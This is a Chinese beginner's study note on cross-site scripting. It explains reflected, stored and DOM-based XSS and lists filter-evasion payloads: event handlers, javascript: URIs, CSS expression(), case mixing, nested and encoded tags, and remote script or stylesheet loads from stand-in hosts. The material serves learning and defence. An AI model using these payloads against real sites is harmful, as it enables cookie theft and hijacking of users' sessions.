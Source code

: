 ## XSS初学总结

### 0x00 引言
学习Web安全，必然是从SQL注射和XSS开始的，毕竟貌似比较基础。学习了几天，没挖出什么洞，只好先总结一下。。。
名言金句：见框就插、改数据包不可见部分、改URL参数、js分析。

### 0x01 XSS分类
1、反射型跨站脚本(Reflected Cross-site Scripting)。主要是将恶意脚本附加到URL地址的参数中，原理如下：发现存在反射XSS的URL——根据输出点的环境构造XSS代码——进行编码等迷惑手法——发送给受害人——受害打开后，执行XSS代码——完成攻击(获取cookies、url、浏览器信息、IP等)。反射型XSS的特点是只在用户单击时触发，且只执行一次，故也称作非持久型跨站。
例如：
```
http://www.test.com/search.php?key="><script>alert("XSS")</script>
http://www.test.com/view.shtml?query=%3Cscript%3Ealert%281%29%3C/script%3E
http://www.test.com/logout.asp?out=1&url=javascript:alert(document.cookie)
```
```seq
Title: 反射型XSS攻击流程
攻击者->受害者: XSS链接&恶意脚本
受害者->服务器: 请求
服务器->>受害者: 响应
```
![反射xss](./static/xss_reflection.png)

2、持久型跨站脚本(Persistent Cross-site Scripting)。攻击者事先将恶意Javascript代码上传或储存到漏洞服务器上，只要受害者浏览包含此恶意代码的页面就会中招。一般出现在留言、评论等交互处。
```seq
Title: 持久型XSS攻击流程
攻击者->服务器: 注入恶意代码
受害者->服务器: 请求
服务器->>受害者: 响应
```

3、DOM XSS。前面两种XSS一般出现在服务器端代码中，而DOM-Based XSS是基于DOM文档对象模型，受客户端浏览器代码的影响。这一漏洞的前提是，一个网页以不安全的方式使用`document.location`、`document.URL`、`document.referrer`等对象获取数据。
举个例子，有如下HTML代码：
```
<html>
  <head>
    <title>Welcome!</title>
  </head>
  <body>
    <p>Hi</p>
    <script>
      var pos=document.URL.indexOf("name=")+5;
      document.write(document.URL.substring(pos,document.URL.length));
    </script>
  </body>
</html>
```
![持久xss](./static/xss_persistent.png)

通常，这个欢迎网页的请求是这样的：
`http://www.test.com/welcome.html?name=lihua`
然而，如果这个请求是这样的：
`http://www.test.com/welcome.html?name=<script>alert(document.cookie)</script>`
这就导致了XSS，弹出了cookie。

4、最后贴一张比较图。
![xss](./static/xss.png)

### 0x02 XSS构造剖析
现实中大多数的网站都有一个XSS Filter，用来分析用户提交的输入，并消除潜在的跨站脚本攻击。XSS Filter一般是基于黑白名单的安全过滤策略，于是就存在被绕过的可能。
１、利用<>标记注射html/javascript。
如：`<script>alert('XSS'); </script>`
２、利用html标签属性值执行XSS。很多html标记中的属性都支持javascript:[code]伪协议，可以尝试这些属性：`href`、`lowsrc`、`bgsound`、`background`、`value`、`action`、`dynsrc`等。
举个例子：
`<table background="javascript:alert('xss')"></table>`
`<img src="javascript:alert('XSS');">`
３、空格回车Tab。javascript结束一条语句的方式有两种，一种是分号`;`，另一种是当javascript引擎确定一个句子完整，而这一行的结尾有换行符。
于是可以构造如下：
```
<img src="ja    vas
cript:
ale rt('XSS')>
```
４、进行各种转码。常用的URL编码，unicode编码，HTML编码，CSS编码等。
５、产生事件法。javascript和html通过事件来进行交互，事件能让javascript代码运行，也就能执行跨站脚本。
例如：
`<img src="#" onerror=alert('XSS')>`
`<input type="button" value="click me" onclick="alert('XSS')"/>`
６、利用CSS跨站。这一方法灵活多变而且隐蔽，可以嵌入到html中，如：
```
<div style="background-image:url(javascript:alert('XSS'))">
<style>
  body {background-image: url("javascript:alert('XSS')");}
</style>
```
也可以从其他文件中引用：
`<link ret="stylesheet" href="http://www.test.com/attack.css">`
`<style type='text/css'>@import url(http://www.test.com/attack.css);</style>`
还可以用expression执行javascript：
```
<div style="width: expression(alert('XSS'));">
<img src="#" style="xss:expression(alert('XSS'));">
<style>
  body {background-image: expression(alert('XSS'));}
</style>
```
７、扰乱过滤规则。
大小写转换法：`<sCrIpt>alert('XSS')</ScripT>`
干扰字符污染法：`<div style="wid/****/th: expre/*XSS*/ssion(alert('XSS'));">`
字符编码法：`<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>`
拼凑法：`<scr<script>rip>alalertert</scr</script>rip>`

### 0x03 结尾
这个坑就先填到这儿，以后技术有提高再来补充。。。

参考资料：
《XSS跨站脚本攻击剖析与防御》

[freebuf/black-hole](http://www.freebuf.com/author/black-hole)

[XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
